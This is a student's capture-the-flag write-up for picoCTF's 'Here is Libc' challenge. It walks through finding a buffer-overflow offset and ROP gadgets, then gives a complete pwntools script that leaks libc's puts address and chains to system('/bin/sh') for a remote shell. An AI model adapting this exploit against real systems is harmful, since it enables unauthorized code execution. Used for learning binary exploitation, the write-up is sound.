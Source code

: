 # CTF Write-Up: [Here is Libc][Binary Exploitation]

## Description
>I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 1774


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{1_<3_sm4sh_st4cking_f2ac531bbb3a68ed}`)

## Difficulty
- **Difficulty Level:** hard

## Tools Used
- gdb
- Youtube

## Write-Up

### Preparatory Phase

The first course of action was running `checksec vuln` to obtain the binary architecture and its protections. We find out that it is a 64-bit architecture with `NX` enabled which suggests that we cannot run our own shellcode on the stack. In conjuction with the name of the challenge we will need to likely use the `libc` file to obtain shell access.  We must also note that `Partial RELRO` is on.

![alt text](images/image.png)

Running the binary locally under `gdb` presented issues giving an:
```
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```
I thus then manually decided to obtain the offset using a manual binary search method. I eventually found the minimum value it core dumped was at 136 bytes deep.


![alt text](images/image.png)
> Found offset to be exactly 136 bytes

Statically using `gdb` I was able to print the functions present in the program. We must note the `puts@plt` which will be useful in leaking the address of `puts`. The `plt` I like to think of as a lazy guide. It 

![alt text](images/image-1.png)
My first aim is to leak the address of `puts` using one **ROP chain.** Then using this information I am able to obtain the base address for `libc` and obtain the addresses for `system` and `/bin/sh` to form our **second ROP chain** which will form the main punching power of our payload.
### Attack Phase
Using the formula from above I can begin my attack which is broken down into two phases. 
1. Obtain `libc` base
2. Exploit

To obtain the `libc` base we can take advantage of the dynamically linked standard C functions such as `puts`. What we want to do is push the `GOT` address of `puts` as an argument into the `puts` function (Mouth-full) so then the program will print the address of `puts`. We then need a pointer back to `main` to gain shell access.

Since `rdi` is the first argument to be pushed onto the stack via 64-bit calling conventions we need to find the gadget associated with `rdi`. We do this via `ROPgadget --binary vuln | grep rdi`

![alt text](images/image-2.png)

Using this knowledge and the fact that pwntools has inbuilt functionality to deal with ELF files using the documentation [here](https://docs.pwntools.com/en/stable/elf/elf.html),  we were able to leak
``` py
#!usr/bin/python3

from pwn import *
import sys

local = False
host = 'mercury.picoctf.net'
port = 1774
program = './vuln'

vuln_elf = ELF("./vuln")
libc = ELF('libc.so.6')
offset = 136

if local:
    io = process(program)
else:
    io = remote(host, port)

padding = b'A'*offset
pop_rdi = p64(0x0000000000400913)
puts_got = p64(vuln_elf.got['puts'])
puts_plt = p64(vuln_elf.plt['puts'])

## Note this only works because PIE and ASLR are disabled for the binary
main_addr = p64(vuln_elf.symbols['main'])


rop1_chain = [
    padding,
    pop_rdi,
    puts_got,
    puts_plt,
    main_addr    
]

rop1 = b''.join(rop1_chain)
io.sendline(rop1)
io.recvline()
io.recvline()
resp = io.recvline()
leaked_puts = resp
print(leaked_puts)
```

Now we have leaked where `puts` is and have returned back to the start of main is. We then can obtain the offset for libc and get our **Bonnie and Clyde** via 
```
libc_base = leaked_puts - libc.symbols['puts']
bin_sh = next(libc.search(b"/bin/sh")) + libc_base
system = libc.symbols['system'] + libc_base

```
### Final Solution/Payload

<details><summary> Dropdown for code </bold> </summary>
<br>

``` py
#!usr/bin/python3

from pwn import *
from Cryptodome.Util.number import bytes_to_long
import sys

local = False
host = 'mercury.picoctf.net'
port = 1774
program = './vuln'

vuln_elf = ELF("./vuln")
libc = ELF('libc.so.6')
offset = 136

if local:
    io = process(program)
else:
    io = remote(host, port)

padding = b'A'*offset
pop_rdi = p64(0x0000000000400913)
ret = p64(0x000000000040052e)
puts_got = p64(vuln_elf.got['puts'])
puts_plt = p64(vuln_elf.plt['puts'])
main_addr = p64(vuln_elf.symbols['main'])


rop1_chain = [
    padding,
    pop_rdi,
    puts_got,
    puts_plt,
    main_addr    
]

rop1 = b''.join(rop1_chain)
io.sendline(rop1)
io.recvline()
io.recvline()
resp = io.recvline().strip()
print(f"Leaked puts: {resp}")
leaked_puts_addy = u64(resp.ljust(8, b'\x00'))

libc.address = leaked_puts_addy - libc.symbols['puts']

print(f"Base of libc is {hex(libc.address)}")
bin_sh = p64(next(libc.search(b'/bin/sh')))
system_addy = p64(libc.symbols['system'])

rop2_chain = [
    padding,
    ret,
    pop_rdi,
    bin_sh,
    system_addy
]
payload = b''.join(rop2_chain)
io.clean()
io.sendline(payload)
io.interactive()



```
</details>

![alt text](images/image-3.png)

### Lessons Learnt
Within the COMP6841 wargames, there was a `ret2libc` exercise but it leaked the address of a known function explicitly. However, this time this exercise requires two payloads - one to leak an function address in order to obtain the `libc base` and a second payload to gain shell access. Reading [this](https://tc.gts3.org/cs6265/tut/tut06-01-rop.html) assisted in my learning.

It was vital that for each binary exploitation challenge I must check the architecture via `file` or `checksec`. The way we approach 32-bit and 64-bit exploitations is different due to their differences in calling conventions. I attempted to do this challenge with the same mindset as I employed with the COMP6841 Wargames `ret2libc` but it didn't work and it wasted hours of my time :(.

This challenge I learn alot 
## References

- https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html
